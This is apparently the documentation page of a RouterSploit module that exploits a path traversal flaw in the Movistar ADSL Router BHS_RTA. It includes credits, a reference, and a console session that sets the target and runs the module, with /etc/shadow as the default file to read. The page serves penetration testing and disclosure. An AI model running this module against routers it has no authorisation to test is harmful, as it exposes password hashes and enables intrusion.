 # Movistar ADSL Router BHS_RTA Path Traversal

## Description
Module exploits Movistar ADSL Router BHS_RTA Path Traversal vulnerability which allows to read any file on the system.

## Authors
* Todor Donev <todor.donev[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/40734/](https://www.exploit-db.com/exploits/40734/)

## Vulnerable devices
* Movistar ADSL Router BHS_RTA

## Usage
```
rsf > use exploits/movistar/adsl_router_bhs_rta_path_traversal
rsf (Movistar ADSL Router BHS_RTA Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     /etc/shadow          File to read


rsf (Movistar ADSL Router BHS_RTA Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Movistar ADSL Router BHS_RTA Path Traversal) > run
[*] Running module...
```
